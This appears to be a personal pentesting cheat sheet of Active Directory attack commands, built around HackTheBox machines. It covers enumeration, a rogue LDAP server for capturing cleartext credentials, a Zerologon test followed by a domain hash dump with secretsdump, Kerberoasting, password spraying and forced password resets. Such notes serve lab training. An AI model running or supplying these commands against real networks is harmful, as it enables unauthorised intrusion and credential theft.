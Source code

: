 ## HackTheBox AD machines
Do the following machines and watch ippsec's videos on them
- monteverde
- cascade
- traversex
- fuse
- intelligence
- remote
- resolute
- sizzle
- multimaster
- sauna
- forest
- object
- active

# Enumeration

## RPC
RPC Null Authentication: `rpcclient -U '' <IP>`

RPC Null Authentication with no password: `rpcclient -U '' <IP>`

If you are able to log in, run `enumdomusers` to list out users

If you get a list of users, you can check their descriptions with the following command:

`querydispinfo`

## SMTP
`nmap -v --script="smtp*" -p25,110,143,465,587,993,995 <IP>`

## SMB
`crackmapexec smb <IP> --shares`

`crackmapexec smb <IP> -u '' -p '' --shares`

`crackmapexec smb <IP> -u '' --shares`

`crackmapexec smb <IP> --pass-pol`

`crackmapexec smb --users`

`smbmap -H <IP>`

`smbclient -L //<IP>`

`smbclient --no-pass //<IP>/<share name> -U''`

## LDAP
git clone windapsearch by ropnop if you don’t already have it

`python [windapsearch.py](http://windapsearch.py) -U --full --dc-ip <IP>`

- pipe this out to a tmp file and use the following command to sort. once sorted, look for interesting strings such as `password` or `pwd`
    - `cat tmp | awk '{print $1}' | sort | uniq -c | sort -nr | grep ':'`
    - YOU SHOULD THEN `grep -i` FOR:
        - `pass`
        - `pwd`
        - `password`
        - `etc`

### Hosting a Rogue LDAP Server

Install the following packages`apt-get install slapd ldap-utils`

Enable package on boot with`systemctl enable slapd`

Configure server to make it insecure with `dpkg`

- `dpkg-reconfigure -p low slapd`
- When prompted, select `No`
- provide the target domain eg `hiddenleaf.local`
- use the same domain as the organization name
- provide an admin password eg `admin123`
- select `MDB` as the database to use
- select `yes` for the database to be removed when slapd in purged
- `yes` to move old database

To allow credentials to be shown in clear text we have to downgrade the authentication methods. Create an ldif file called `olcSaslSecProps.ldif`:

```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

Use the file to patch the LDAP server:

- `sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif`
- `systemctl restart slapd` or `service slapd restart`

Now listen using tcpdump:

`sudo tcpdump -SX -i eth0 tcp port 389`

It might take a few tries before you receive anything if you running over a vpn

### Zero Logon

*Do not run this is a production environment as this may break the domain controller*

git clone the github repo for `CVE-2020-1472` by dirkjanm and then download the `zero-logon tester` script for the same CVE by SecuraBV

run the tester script with the following syntax:

- `python3 [zerologontester.py](http://zerologontester.py) <DC NAME> <IP>`

if the script confirms the vulnerability, we can use secretsdump to dump the NTDS.DIT file:

- `impacket-secretsdump <domain name>/<DC NAME>\$@<DC IP> -just-dc`
- the `$` presents an empty value/string

### If you have a Valid User(s) and or Password(s):

- `python3 [bloodhound.py](http://bloodhound.py) -ns <DC IP> -d <domain> -dc <DC hostname> -u <username> -p <password> -c All`

- `rpcclient -U '<username>' <IP>` then run `enumdomusers` with this you can try `GetUserSPNs` or `GetNPUsers`

- *NO PASS REQ* `./kerbrute userenum -dc <DC IP> -d <domain> users.txt`
    - if this command does not run (fails) try sync your attack machine time with the time of the domain controller because kerberos authentication requires that the times be synced:
        - `ntpdate <DC IP>`

- `./kerbrute passwordspray --dc <DC IP> -d <domain> users.txt <PASSWORD TO SPRAY>`
    - if this command does not run (fails) try sync your attack machine time with the time of the domain controller because kerberos authentication requires that the times be synced:
        - `ntpdate <DC IP>`

- `impacket-GetUserSPNs <domain name>/<username>:<password> -outputfile krbroast`

- *NO PASS REQ* `impacket-GetNPUsers -dc-ip <DC IP> -no-pass -usersfile users.txt <domain name>/` OR `impacket-GetNPUsers -dc-ip <DC IP> -no-pass <domain name>/<username>`

- `crackmapexec smb <DC IP or CIDR range> smb/winrm - u <username file> -p <password file> --no-bruteforce --continue-on-success`

- `crackmapexec smb <IP> -u <username> -p <password> --shares -M spider_plus`

- `crackmapexec smb <IP> -u <username> -p <password> -M spider_plus`
    - to list out the contents of the spider plus module, you have to use `jq` to parse the data. to list everything in all the found shares run `cat /tmp/cme_spider_plus/<IP>.json | jq '. | map_values(keys)'`
    
## Misc

### Change User Pass with `rpcclient`
If your current user has the `ForceChangePass` flag on another user which you can find in bloodhound, you can use rpcclient to change the password then maybe read shares with smbclient/cme or do more enumeration with the new user and password
be sure to try a password that might fit in a password policy

- `rpcclient -U <username>`

- `setuserinfo2 <username to change password> 23 '<new password>'`

### Change User Pass with `smbpasswd`
`smbpasswd -U <username> -r <Domain name or IP>`

### Mount SMB Share
`sudo mount -t cifs -o 'username=<username>,password=<password>' //<IP>/<Share you want to mount> /mnt/<folder to mount to>`

### Cracking GPP Password/Hash
this is some sort of cpassword or something

`gpp-decrypt <hash>`